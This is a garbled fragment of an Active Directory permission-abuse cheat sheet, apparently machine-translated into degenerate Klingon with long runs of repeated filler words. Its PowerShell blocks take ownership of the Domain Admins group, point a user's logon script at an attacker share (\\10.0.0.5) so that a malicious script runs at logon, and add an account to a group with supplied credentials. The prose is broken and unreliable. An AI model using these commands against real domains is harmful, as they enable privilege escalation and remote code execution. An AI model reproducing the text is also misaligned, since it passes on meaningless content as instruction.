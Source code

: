 vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh 'ej 'oH vItlhutlh 'e' vItlhutlh '
```powershell
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
Set-DomainObjectOwner -Identity Herman -OwnerIdentity nico
```
## **GenericWrite on User**
**tlhIngan Hol:**
QapHa'logh permission vItlhutlh. QapHa'logh 'e' vItlhutlh, 'oH vItlhutlh attacker user properties modify. QapHa'logh 'e' vItlhutlh, 'oH vItlhutlh attacker logon script path change user logon time malicious script execute. 'oH vItlhutlh 'e' Set-ADObject command vItlhutlh target user scriptpath property update attacker script point.
```powershell
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
## **GenericWrite on Group**
**GenericWrite** vItlhutlh **Group** DaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDaqDa
```powershell
$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd)
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'username' -Verbose
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'username' -Verbose
```
## **WriteDACL + WriteOwner**